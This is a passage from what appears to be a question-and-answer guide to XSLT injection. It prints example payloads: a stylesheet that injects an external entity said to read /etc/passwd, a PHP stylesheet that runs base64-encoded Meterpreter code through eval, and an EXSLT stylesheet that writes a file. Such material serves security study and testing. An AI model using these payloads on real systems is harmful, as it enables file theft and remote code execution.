      <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/fruits">
         Fruits &ext_file;:
         <xsl:for-each select="fruit">
           - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
         </xsl:for-each>
       </xsl:template>
     </xsl:stylesheet>
     ```
     This payload defines an external entity (`ext_file`) that points to a local file (`/etc/passwd`) and then injects it into the document’s transformation, allowing the attacker to read the file contents.

---

### 4. **How can an attacker use an XSLT stylesheet to execute remote code or system commands?**
   - **Answer:**  
     An attacker can exploit XSLT stylesheets by injecting malicious functions that can execute system commands or remote scripts. Certain XSLT processors allow the execution of arbitrary code, particularly when using languages like PHP or Java, or if the application uses insecure functions like `php:function()` or `java:Runtime`.
   - **Example Payload (Executing a PHP Meterpreter payload):**
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
       <xsl:template match="/">
         <xsl:variable name="eval">
           eval(base64_decode('Base64-encoded Meterpreter code'))
         </xsl:variable>
         <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
       </xsl:template>
     </xsl:stylesheet>
     ```
     This payload decodes and executes a Meterpreter payload using PHP's `eval` function.

---

### 5. **What is the EXSLT extension, and how can it be used for file manipulation in an XSLT attack?**
   - **Answer:**  
     EXSLT is a set of extensions to the XSLT language, which provides additional functions and capabilities beyond the standard XSLT specification. One such function can be used to write files or execute other destructive actions. If an attacker can inject EXSLT-specific functions into an XSLT stylesheet, they may perform file writing or remote code execution.
   - **Example Payload (Writing to a file):**
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:exploit="http://exslt.org/common" extension-element-prefixes="exploit" version="1.0">
       <xsl:template match="/">
         <exploit:document href="evil.txt" method="text">
           Hello World!
         </exploit:document>
       </xsl:template>
     </xsl:stylesheet>
     ```
     This payload uses the `exploit:document` function to write "Hello World!" to a file named `evil.txt`.

---